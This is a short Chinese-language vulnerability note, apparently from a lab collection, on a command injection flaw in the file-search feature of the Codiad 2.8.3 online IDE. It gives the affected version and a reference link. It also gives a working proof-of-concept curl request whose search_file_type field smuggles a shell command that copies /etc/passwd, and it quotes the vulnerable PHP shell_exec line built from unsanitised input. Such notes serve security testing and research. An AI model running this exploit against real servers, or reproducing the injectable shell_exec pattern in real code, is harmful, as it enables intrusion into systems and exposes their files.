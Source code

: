 ## 文件查找 - 命令注入漏洞

测试镜像

* src/codiad/2.8.3

影响版本

* 2.8.3

参考链接

* [Codiad在线IDE框架远程命令执行漏洞分析](http://www.freebuf.com/articles/web/141788.html)

Poc

```
# 请先修改 cookie
curl 'http://127.0.0.1/components/filemanager/controller.php?action=search&path=/tmp/demo/&type=0' -H 'Cookie: 40d1b2d83998fabacb726e5bc3d22129=vlbh200p9c5p3a2ni6e0d3ecb5; cecfeb9f0e60abb79e183c90660419a6=33qhp27nns3mcc4a8udiavird2' -d 'search_string=php&search_file_type=";cp /etc/passwd /tmp/hacked;"'; echo
```

关键代码

```
# 命令注入
$output = shell_exec('find -L ' . $this->path . ' -iregex  ".*' . $this->search_file_type  . '" -type f | xargs grep -i -I -n -R -H "' . $input . '"');
```

